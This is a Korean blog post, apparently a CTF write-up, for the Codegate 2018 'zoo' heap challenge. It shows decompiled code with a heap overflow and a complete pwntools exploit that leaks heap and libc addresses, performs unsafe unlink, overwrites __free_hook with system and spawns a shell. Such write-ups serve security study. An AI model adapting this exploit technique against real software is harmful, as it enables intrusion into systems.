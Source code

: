 ```yaml
---
layout:     post
title:      "Codegate 2018 prequals zoo write-up"
subtitle:   "yeah~~ feel so good~"
date:       2018-02-15
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2018 prequals zoo write-up

### 1. Intro

unsafe ulink에 대한 이해도를 높이는데 많은 도움을 주었다.



### 2. Binary

```
-----------* My Own Zoo *-----------
[1] Adopt an animal
[2] Feed an animal
[3] Clean an amimal house
[4] Take a walk with an animal
[5] Take an animal to the hospital
[6] List animal info
[7] Close the zoo
------------------------------------
```

위와 같이 7개의 메뉴로 이루어져 있다.

1. Adopt an animal
   - 동물을 입양시킨다. (name, type)
2. Feed an animal
   - 동물에게 음식을 주거나 약을 준다.
   - 음식을 주면 food chunk를 할당하며, 간간히 dung chunk도 할당한다.
   - 약을 줄때에는 동물이 병에 걸려 의사에게 약 처방을 받았을 때이며, 약의 정보를 입력한다. (name, description)
3. Clean an animal
   - 동물의 dung chunk를 free한다.
4. Take a walk
   - 동물의 food chunk를 free한다.
   - 만약 동물이 food나 medicine이 아닌 다른걸 가지고있다면, 그곳에 주인의 메세지를 남길 수 있다.
5. Take an animal to the hospital
   - 동물의 dung chunk를 5개 free한다.
   - 만약 그 이후에도 dung chunk가 5개 이상이라면 약을 처방한다.
6. List animal info
   - 동물의 상태를 보여준다. (Name, Species, Likes, Get Food, Get Dung, healthy info)
7. Close the zoo
   - 프로그램을 종료한다.



### 3. Vulnerability

```c
      ...		
      puts("------------------------------------");
      printf("[+] Your animal %s is ill now. :(\n", *&a1->name[8 * (animal_idx + 2LL)] + 4LL);
      puts("[+] You can only feed medicines to your animal.");
      printf("[+] Please tell me the name of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 16LL), 8uLL);
      printf("[+] Please tell me a description of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 24LL), 0x78uLL);// heap_overflow
      
      ...
```

동물에게 약을 처방할때 heap overflow가 발생하여 다음 chunk 의 prev_size와 size를 덮을 수 있다.<br>또한 이름을 입력하고 그뒤에 바로 food_chunk가 할당되어, 이름을 출력할때 heap_leak을 얻을 수 있다.



### 4. Exploit

Unsafe Unlink를 heap chunk를 대상으로 해주면 된다. 그러면 4번의 메뉴로 animal structure를 overwrite하여 arbitrary read/write가 가능하다.

```python
from pwn import *

s = process('./zoo')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def adopt(idx,name):
	s.sendlineafter('>> ', '1')
	s.sendlineafter('>> ', idx)
	s.sendafter('>> ', name)

def feed(name):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)

def feed_medi(name,medi_name,description):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)
	s.sendafter('>> ', medi_name)
	s.sendafter('>> ', description)

def clean(name):
	s.sendlineafter('>> ', '3')
	s.sendafter('>> ', name)

def walk(name):
	s.sendlineafter('>> ', '4')
	s.sendafter('>> ', name)

def hospital(name):
	s.sendlineafter('>> ', '5')
	s.sendafter('>> ', name)

def a_list(name):
	s.sendlineafter('>> ', '6')
	s.sendafter('>> ', name)


s.sendlineafter('>> ', '/bin/sh')

adopt('1','A' * 20)
feed('A' * 20)
s.recvuntil('A' * 20)
heap = u64(s.recv(6) + "\x00" * 2)
target = heap - 0x6a8 + 0x8
log.info("HEAP : " + hex(heap))
log.info("TARGET : " + hex(target))

adopt('1','A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)

payload = p64(target - 0x18)
payload2 = p64(target - 0x10)
payload2 += '\x00' * 0x60 + p64(0x80) + p64(0x90)

hospital('A' * 10)
adopt('1','A' * 5)

for _ in xrange(1):
	for _ in xrange(20):
		feed('A' * 5)
	for _ in xrange(20):
		walk('A' * 5)
for _ in xrange(8):
	clean('A' * 5)

clean('A' * 10)
feed_medi('A' * 10,'NEXTLINE','NEXTLINE')
feed('A' * 5)
feed_medi('A' * 10, payload , payload2)

for _ in xrange(2):
	clean('A' * 10)

walk('A' * 10)
payload3 = p64(target+0xe80)
payload3 += p64(target+0x1150)
payload3 += p64(target-0x210) # /bin/sh
payload3 += p64(target+0x60)
payload3 += p64(target+0x70)
s.sendafter('>> ',payload3)

s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0x0) * 2 + p64(target+0x970))

a_list('A' * 10)
s.recvuntil('[-] Species : ')
libc = u64(s.recv(6) + "\x00" *2) - 1176 - l.symbols['__malloc_hook']
log.info("LIBC : " + hex(libc))

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0) + p64(libc + l.symbols['__free_hook']-0x18))
s.sendafter('>> ','\x00')

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(libc + l.symbols['system']))

walk('A' * 10)
s.interactive()
```
